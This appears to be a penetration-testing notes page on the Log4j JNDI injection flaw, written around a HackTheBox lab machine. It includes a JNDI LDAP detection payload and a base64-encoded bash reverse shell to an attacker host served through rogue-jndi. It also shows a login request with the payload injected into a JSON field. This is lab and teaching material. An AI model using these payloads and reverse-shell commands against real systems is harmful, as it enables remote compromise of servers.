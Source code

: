 ```yaml
---
title: Log4j
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
  - java
  - serialization vulnerability
---
```


# Log4j

This Log4J vulnerability can be exploited by injecting operating system commands (OS Command Injection). Log4j is a popular logging library for Java created in 2001. The logging library's main purpose is to provide developers with a way to change the format and verbosity of logging through configuration files versus code. 

## What it does

What a logging library does, is instead of using print statements, the developer just uses a wrapper around the Logging class or object. So instead of using print(line), the code would look like this:

```
logging.INFO(“Application Started”)
logging.WARN(“File Uploaded”)
logging.DEBUG(“SQL Query Ran”)
```

Then the application has a configuration file which says what log levels (INFO, WARN, DEBUG, etc.) to display. This way when there is a problem with the application, the developer can enable DEBUG mode and instantly get the messages they need to identify the issue.

## Reconnaissance - Proof of Concept

The main way people have been testing if an application is vulnerable is by combining this vulnerability with JNDI.

**Java Naming and Directory Interface (JNDI)** is a Java API that allows clients to discover and look up data and objects via a name. These objects can be stored in different naming or directory services, such as Remote Method Invocation (RMI), Common Object Request Broker Architecture (CORBA), Lightweight Directory Access Protocol (LDAP), or Domain Name Service (DNS). By making calls to this API, applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.

In other words, JNDI is a simple Java API (such as 'InitialContext.lookup(String name)') that takes just one string parameter, and if this parameter comes from an untrusted source, it could lead to remote code execution via remote class loading.

**LDAP is the acronym forLightweight Directory Access Protocol**, which is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network. The default port that LDAP runs on is port 389.

**Proof of concepts to see if it is vulnerable**:

**1.** Grab the request with the injectable parameter.

**2.** In the injectable parameter, inject something like this:

```
"${jndi:ldap://AtackerIP/whatever}"
```

With [tcpdump](tcpdump.md), check if the request with the payload produces some traffic to your attacker machine:

```bash
sudo tcpdump -i tun0 port 389
# -i: Select interface
# port: indicate the port where traffic is going to be captured. 
```

The tcpdump output shows a connection being received on our machine. This proves that the application is indeed vulnerable since it is trying to connect back to us on the LDAP port 389.

## Exploitation

```
# Install Open-JDK and Maven as requirement
sudo apt install openjdk-11-jre maven

git clone https://github.com/veracode-research/rogue-jndi 

cd rogue-jndi

mvn package

# Once it's build, make a reverse shell in base64 with attacker machine and listening port
echo 'bash -c bash -i >&/dev/tcp/$AttackerIP/$AttackerPort 0>&1' | base64
# This will return something similar to this: YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMi80NDQ0IDA+JjEK
 
# Get out of rogue-jndi folder and
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMi80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.129.96.149"
# In the bash command, copy paste your reverse shell in base64
# --hostname: Victim IP

# Now, open a terminal, launch [[netcat]] and the listening port you defined in your payload.
```

With Burpsuite, get a request for login:

```
POST /api/login HTTP/1.1
Host: 10.129.96.149:8443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.129.96.149:8443/manage/account/login
Content-Type: application/json; charset=utf-8
Origin: https://10.129.96.149:8443
Content-Length: 104
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"lala","password":"lele","remember":false,"strict":true}
```

This request is from [HackTheBox machine: Unified](htb-unified.md). As we can read from the Unifi version exploit, the injectable parameter is "remember". So we insert there our payload and with Repeater, send the request:


```
POST /api/login HTTP/1.1
Host: 10.129.96.149:8443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.129.96.149:8443/manage/account/login
Content-Type: application/json; charset=utf-8
Origin: https://10.129.96.149:8443
Content-Length: 104
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"lala","password":"lele","remember":"${jndi:ldap://10.10.14.2:1389/o=tomcat}","strict":true}
```

Once we send that request, our jndi server will resend the reverse shell:

![jndi server](img/log4j.png)

And in our terminal with the nc listener we will get the reverse shell.


## Dummy explanation

Log4j is a framework or `Library` used to log application messages in Java and other programming languages. In this example, an attacker can manipulate the HTTP User-Agent header and insert a JNDI lookup as a command intended for the Log4j `library`. Accordingly, not the actual User-Agent header, such as Mozilla 5.0, is processed, but the JNDI lookup. What made the Log4j vulnerability so dangerous was the `Privileges` that the implementation brought. . Accordingly, most applications with the Log4j implementation were run with the privileges of an administrator. The process itself exploited the library by manipulating the User-Agent so that the process misinterpreted the source and led to the execution of user-supplied code.

The misinterpretation of the User-Agent leads to a JNDI lookup which is executed as a command from the system with administrator privileges and queries a remote server controlled by the attacker.

GovCERT.ch has created an excellent graphical representation of the Log4j vulnerability worth examining in detail. Source: https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/

![log4j](img/log4j_1.png)

## Related labs

[Walkthrough HackTheBox machine: Unified](htb-unified.md).


